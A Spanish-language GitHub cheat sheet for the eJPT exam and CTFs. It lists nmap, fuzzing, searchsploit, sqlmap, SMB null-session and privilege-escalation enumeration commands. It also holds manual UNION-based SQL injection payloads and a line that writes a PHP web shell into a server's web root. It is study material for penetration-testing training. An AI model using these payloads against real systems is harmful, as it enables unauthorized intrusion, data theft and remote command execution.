 # Exam-eJPT-Cheatsheet
Ayuda de algunos comandos que pueden utilizarse en el eJPT o en algun CTF.

## Common ports
| Port | Protocol | Hint                   |
|------|----------|------------------------|
| 22   | SSH      |                        |
| 25   | SMTP     |                        |
| 110  | POP3     |                        |
| 115  | SFTP     |                        |
| 143  | IMAP     |                        |
| 80   | HTTP     |                        |
| 443  | HTTPS    |                        |
| 23   | TELNET   |                        |
| 21   | FTP      |                        |
| 3389 | RDP      |                        |
| 3306 | MYSQL    |                        |
| 1433 | MS SQL   |                        |
| 137  | NETBIOS  | find work groups       |
| 138  | NETBIOS  | list shares & machines |
| 139  | NETBIOS  | transit data           |
| 53   | DNS      |                        |

### Nmap Scans
#### OS Detection
    nmap -Pn -O <IP>
#### Nmap Scan ports
    nmap -p- --open -T5 -n <IP> -oG allPorts
    nmap -p- --open -sS --min-rate 5000 -n -Pn <IP> -oN allPorts (Rapido)
#### Nmap Scan Scripts reconocimiento.
    nmap -sC -sV -p<ports> 10.10.10.10 -oN target
#### Nmap Scan (UDP Quick)
    nmap -sU -sV <IP> 
#### Other nmap scan useful during exam
    nmap -sV -Pn -T4 -A -p- -iL hosts.nmap -oN ports.nmap
    nmap --script vuln --script-args=unsafe=1 -iL hosts.nmap
# FUZZING
## mi herramienta favorita para hacer fuzzing  es wfuzz pero existen otras que podemos utilizar.
    wfuzz -c --hc=404,400 -w <dictionaryFile> http://<IP>/FUZZ
#### subdominios pordemos usa el -Z en wfuzz
    wfuzz -c --hc=404,400 -Z -w <dictionaryFile> http://<IP>/FUZZ
#### Herramientas dirsearch , dirb podemos usar tambien gobuster
    dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]
    dirb http://<IP>
# Buscar exploits
### Sabemos que para buscar vulnerabilidades podemos usar google u tirar de esta  herramienta llamada searchsploit
#### Busqueda 
    searchsploit <Name>
#### Inspeccionar
    searchsploit -x path : example searchsploit -x linux_x86-64/47151.c
#### copiar exploit
    searchsploit -m path : example searchsploit -m linux_x86-64/47151.c
# SQLi
### SQLMap
### Podemos tirar de esta herramienta para las injecciones SQL , pero dejare un pequeño recurso para hacerlo manualmente.
    sqlmap -u http://<IP> -p parameter
    sqlmap -u http://<IP>  --data POSTstring -p parameter
    sqlmap -u http://<IP> --os-shell
    sqlmap -u http://<IP> --dump
### Recurso 
https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/sql/
### Sentencias comunes SQLi
#### Probar si nos lanza algun error
    '
    ' Order by 1000 : tratar de ordenar datos.
    ' Union Select 1 : esperar las columnas.
    ' Union Select "test" : esperar las columnas.
#### Obtener nombre de la DB
    ' Union Select database() -- -
    ' Union select schema_name from information_schema.schemata -- -
#### Tablas
    ' Union select table_name from information_schema.tables where table_schema="nameDB" -- -
#### Columnas
    ' Union Select column_name from information_schema.columns where table_schema="nameDB" and table_name="nameTable" -- -
#### Data extract
    ' Union select group_concat(column1,...,coluumnN) from <tablenale> -- -
#### Upload file or Create content
    ' Union Select "Probando" into outfile "/var/www/html/prueba.txt" -- -
#### PHP with SQLi
    'Union Select "<?php system($_GET['cmd'];?>" into outfile "/var/www/html/commandExec.php" -- -
    
### Windows Shares Using Null sessions
    nmblookup -A <IP>
    smbclient -L //<IP> -N (list shares)
    smbclient //<IP>/share -N (mount share)
    smbclient -L <IP> -N --option="client min protocol=NT1"
    enum4linux -a <IP>
### Windows machines
    crackmapexec smb <IP> -u 'user' -p 'password' : Si esto nos contesta con un [+] el usuario es valido
    crackmapexec winrm <IP> -u 'user' -p 'password' : si esto nos pone un Pwn3d podemos conectanos con evilwinrm
    evil-winrm -i <IP> -u 'user' -p 'pass'
### Escalar privilegios Linux
#### Podemos tratar de escalar privilegios buscando e inspeccionando con estos comandos.
#### SUID
    find / -perm -4000 2>/dev/null
#### SUDOERS
    sudo -l
#### Capabilities
    getcap -r / 2>/dev/null
#### Si no encontramos por aqui algo importante podemos empezar a enumerar el sistema con otras tecnicas como buscar tareas cron , linpeas.sh o tratar de revisar que archivos podemos editar nosotros con el siguiente comando
    find / -user <user> 2>/dev/null
#### Podemos quitar los proc
    find / -user <user> 2>/dev/null | grep -vE "proc|/proc"
    
